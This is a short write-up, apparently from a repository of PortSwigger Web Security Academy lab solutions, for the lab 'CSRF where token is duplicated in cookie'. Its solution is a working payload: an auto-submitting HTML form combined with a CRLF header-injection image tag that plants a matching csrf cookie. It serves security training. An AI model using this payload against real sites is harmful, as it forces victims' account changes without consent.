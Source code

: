 Title: CSRF where token is duplicated in cookie
Level: PRACTITIONER
Desc:  This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough: 
<img width="1041" height="527" alt="image" src="https://github.com/user-attachments/assets/4a72affb-9033-4c9d-9269-204204d7710b" />

The csrf mechanism here is csrf token in body compared against csrf token in cookie, and as long as you have the same values in those places you can have there everything.
solution:
```
<form method="POST" action="https://0a9c007d03e72aca80c303c9006600d0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test1321@normal-user.net">
    <input type="hidden" name="csrf" value="cokolwiek">
</form>
<img src="https://0a9c007d03e72aca80c303c9006600d0.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=cokolwiek%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
